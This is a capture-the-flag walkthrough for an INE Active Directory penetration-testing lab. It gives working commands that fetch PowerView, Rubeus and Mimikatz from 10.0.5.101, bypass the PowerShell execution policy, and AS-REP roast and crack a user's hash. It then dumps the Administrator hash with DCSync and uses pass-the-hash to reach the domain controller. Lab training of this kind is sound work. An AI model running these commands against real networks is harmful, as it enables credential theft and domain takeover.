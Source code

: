 INE - eCPPTv3 - Active Directory Penetration Testing CTF 1


# 1. flag:

You start on machine named Client with the user student.

RDP on the desktop has the target host target.research.security.local saved, with the username set as bobby. Tried the example password password1—successfully logged in.

# 2. flag:

Lets AS-REP Roast.

```
Invoke-WebRequest -Uri "http://10.0.5.101:8080/PowerView.ps1" -Outfile mimi.ps1
powershell -ep bypass
. .\PowerView.ps1
```

List users with DONT_REQ_PREAUTH:
```
Get-DomainUser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }
```

```
Invoke-WebRequest -Uri "http://10.0.5.101:8080/Rubeus.exe" -Outfile Rubeus.exe
.\Rubeus.exe asreproast /user:johnny /outfile:johnhash.txt
```

```
.\johnTheRipper\john-1.9.0-jumbo-1-win64\run\john.exe .\johnhash.txt --format=krb5asrep -wordlist=.\10k-worst-pass.txt
```

RDP in with johhny for next flag.


# 3. flag:

On CLIENT macine:

```
powershell -ep bypass
. .\PowerView.ps1
Find-LocalAdminAccess
```

 Access the **seclogs.research.SECURITY.local** machine:
 
```
Enter-PSSession seclogs.research.SECURITY.local
```

# 4. flag:

Let’s pivot to the domain controller (prod.research.security.local)—identified via the output of:
`nslookup -type=srv _ldap._tcp.dc._msdcs.research.security.local`

```
Invoke-WebRequest -Uri "http://10.0.5.101:8080/Invoke-Mimikatz.ps1" -Outfile mimi.ps1
. .\mimi.ps1

[seclogs.research.SECURITY.local]: PS C:\Users\student.RESEARCH\Documents> Invoke-Mimikatz -Command '"privilege::debug"
"token::elevate" "lsadump::dcsync /domain:research.security.local /user:"CN=Administrator,CN=Users,DC=research,DC=security,DC=l
ocal""'

 OR

[seclogs.research.SECURITY.local]: PS C:\Users\student.RESEARCH\Documents> Invoke-Mimikatz -Command '"privilege::debug"
"token::elevate" "lsadump::dcsync /domain:research.security.local /user:administrator@research.security.local"'

```

On CLIENT

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.security.local /ntlm:38a...b81d9 /run:powershell.exe"'
```

Now, access the Domain Controller:
```
Enter-PSSession prod.research.SECURITY.local
```
That's it.

